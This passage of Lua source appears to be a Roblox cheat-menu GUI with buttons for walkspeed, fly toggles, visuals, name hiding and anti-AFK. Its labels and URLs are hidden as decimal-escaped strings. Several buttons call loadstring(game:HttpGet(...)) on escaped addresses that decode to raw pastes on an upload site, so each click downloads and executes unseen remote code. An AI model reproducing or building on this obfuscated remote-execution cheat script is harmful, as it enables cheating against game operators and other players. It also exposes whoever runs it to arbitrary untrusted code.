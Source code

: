 j_mp.BackgroundTransparency = 1.000 j_mp.Position = UDim2.new(0, 8, 0.5, 0) j_mp.Size = UDim2.new(0.252747267, 49, 1, -8) j_mp.Font = Enum.Font.Gotham j_mp.Text = "\87\65\76\75\83\80\69\69\68" j_mp.TextColor3 = Color3.fromRGB(255, 255, 255) j_mp.TextSize = 10.000 j_mp.TextTransparency = 0.300 j_mp.TextXAlignment = Enum.TextXAlignment.Left cj_m.Name = "\66\117\116\116\111\110\95\50\52" cj_m.Parent = b cj_m.BackgroundColor3 = Color3.fromRGB(43, 42, 49) cj_m.BorderSizePixel = 0 cj_m.LayoutOrder = 1 cj_m.Position = UDim2.new(-0.107142858, 0, 0.406666666, 0) cj_m.Size = UDim2.new(1, 0, 0, 26) cj_m.AutoButtonColor = false cj_m.Font = Enum.Font.GothamBold cj_m.Text = "" cj_m.TextColor3 = Color3.fromRGB(255, 255, 255) cj_m.TextSize = 16.000 cj_m.MouseButton1Down:connect(function() loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\97\112\105\46\117\112\108\111\97\100\46\115\121\115\116\101\109\115\47\112\97\115\116\101\115\47\49\51\103\80\109\117\112\80\97\55\110\78\47\114\97\119",true))() end) icj.Name = "\84\105\116\108\101" icj.Parent = cj_m icj.AnchorPoint = Vector2.new(0, 0.5) icj.BackgroundColor3 = Color3.fromRGB(255, 255, 255) icj.BackgroundTransparency = 1.000 icj.Position = UDim2.new(0, 8, 0.5, 0) icj.Size = UDim2.new(0.252747267, 49, 1, -8) icj.Font = Enum.Font.Gotham icj.Text = "\84\79\71\71\76\69\32\70\76\89\32\91\69\93" icj.TextColor3 = Color3.fromRGB(255, 255, 255) icj.TextSize = 10.000 icj.TextTransparency = 0.300 icj.TextXAlignment = Enum.TextXAlignment.Left sicj.Name = "\66\117\116\116\111\110\95\50\53" sicj.Parent = b sicj.BackgroundColor3 = Color3.fromRGB(43, 42, 49) sicj.BorderSizePixel = 0 sicj.LayoutOrder = 1 sicj.Position = UDim2.new(-0.107142858, 0, 0.406666666, 0) sicj.Size = UDim2.new(1, 0, 0, 26) sicj.AutoButtonColor = false sicj.Font = Enum.Font.GothamBold sicj.Text = "" sicj.TextColor3 = Color3.fromRGB(255, 255, 255) sicj.TextSize = 16.000 sicj.MouseButton1Down:connect(function() loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\97\112\105\46\117\112\108\111\97\100\46\115\121\115\116\101\109\115\47\112\97\115\116\101\115\47\89\109\65\81\65\77\117\90\79\80\87\90\47\114\97\119",true))() end) rsic.Name = "\84\105\116\108\101" rsic.Parent = sicj rsic.AnchorPoint = Vector2.new(0, 0.5) rsic.BackgroundColor3 = Color3.fromRGB(255, 255, 255) rsic.BackgroundTransparency = 1.000 rsic.Position = UDim2.new(0, 8, 0.5, 0) rsic.Size = UDim2.new(0.252747267, 49, 1, -8) rsic.Font = Enum.Font.Gotham rsic.Text = "\84\79\71\71\76\69\32\70\76\89\32\86\50\32\91\90\93" rsic.TextColor3 = Color3.fromRGB(255, 255, 255) rsic.TextSize = 10.000 rsic.TextTransparency = 0.300 rsic.TextXAlignment = Enum.TextXAlignment.Left orsic.Name = "\116\105\116\108\101" orsic.Parent = b orsic.BackgroundColor3 = Color3.fromRGB(43, 42, 49) orsic.BorderColor3 = Color3.fromRGB(146, 138, 255) orsic.BorderSizePixel = 2 orsic.LayoutOrder = 1 orsic.Position = UDim2.new(-0.107142858, 0, 0.406666666, 0) orsic.Size = UDim2.new(1, 0, 0, 26) orsic.AutoButtonColor = false orsic.Font = Enum.Font.GothamBold orsic.Text = "\86\73\83\85\65\76\83\47\69\88\84\82\65" orsic.TextColor3 = Color3.fromRGB(255, 255, 255) orsic.TextSize = 16.000 eors.Name = "\84\105\116\108\101" eors.Parent = orsic eors.AnchorPoint = Vector2.new(0, 0.5) eors.BackgroundColor3 = Color3.fromRGB(255, 255, 255) eors.BackgroundTransparency = 1.000 eors.Position = UDim2.new(0, 8, 0.5, 0) eors.Size = UDim2.new(0.252747267, 49, 1, -8) eors.Font = Enum.Font.Gotham eors.Text = "" eors.TextColor3 = Color3.fromRGB(255, 255, 255) eors.TextSize = 10.000 eors.TextTransparency = 0.300 eors.TextXAlignment = Enum.TextXAlignment.Left aeor.Name = "\66\117\116\116\111\110\95\50\55" aeor.Parent = b aeor.BackgroundColor3 = Color3.fromRGB(43, 42, 49) aeor.BorderSizePixel = 0 aeor.LayoutOrder = 1 aeor.Position = UDim2.new(-0.107142858, 0, 0.406666666, 0) aeor.Size = UDim2.new(1, 0, 0, 26) aeor.AutoButtonColor = false aeor.Font = Enum.Font.GothamBold aeor.Text = "" aeor.TextColor3 = Color3.fromRGB(255, 255, 255) aeor.TextSize = 16.000 aeor.MouseButton1Down:connect(function() loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\97\112\105\46\117\112\108\111\97\100\46\115\121\115\116\101\109\115\47\112\97\115\116\101\115\47\84\113\102\72\97\51\53\53\75\108\48\67\47\114\97\119",true))() end) gaeo.Name = "\84\105\116\108\101" gaeo.Parent = aeor gaeo.AnchorPoint = Vector2.new(0, 0.5) gaeo.BackgroundColor3 = Color3.fromRGB(255, 255, 255) gaeo.BackgroundTransparency = 1.000 gaeo.Position = UDim2.new(0, 8, 0.5, 0) gaeo.Size = UDim2.new(0.252747267, 49, 1, -8) gaeo.Font = Enum.Font.Gotham gaeo.Text = "\72\73\68\69\32\78\65\77\69\32\67\76\73\69\78\84" gaeo.TextColor3 = Color3.fromRGB(255, 255, 255) gaeo.TextSize = 10.000 gaeo.TextTransparency = 0.300 gaeo.TextXAlignment = Enum.TextXAlignment.Left hgae.Name = "\66\117\116\116\111\110\95\50\56" hgae.Parent = b hgae.BackgroundColor3 = Color3.fromRGB(43, 42, 49) hgae.BorderSizePixel = 0 hgae.LayoutOrder = 1 hgae.Position = UDim2.new(-0.107142858, 0, 0.406666666, 0) hgae.Size = UDim2.new(1, 0, 0, 26) hgae.AutoButtonColor = false hgae.Font = Enum.Font.GothamBold hgae.Text = "" hgae.TextColor3 = Color3.fromRGB(255, 255, 255) hgae.TextSize = 16.000 hgae.MouseButton1Down:connect(function() loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\97\112\105\46\117\112\108\111\97\100\46\115\121\115\116\101\109\115\47\112\97\115\116\101\115\47\86\71\78\98\73\89\72\98\112\120\109\77\47\114\97\119",true))() end) qhga.Name = "\84\105\116\108\101" qhga.Parent = hgae qhga.AnchorPoint = Vector2.new(0, 0.5) qhga.BackgroundColor3 = Color3.fromRGB(255, 255, 255) qhga.BackgroundTransparency = 1.000 qhga.Position = UDim2.new(0, 8, 0.5, 0) qhga.Size = UDim2.new(0.252747267, 49, 1, -8) qhga.Font = Enum.Font.Gotham qhga.Text = "\65\78\84\73\32\65\70\75\47\65\78\84\73\32\73\68\76\69" qhga.TextColor3 = Color3.fromRGB(255, 255, 255) qhga.TextSize = 10.000 qhga.TextTransparency = 0.300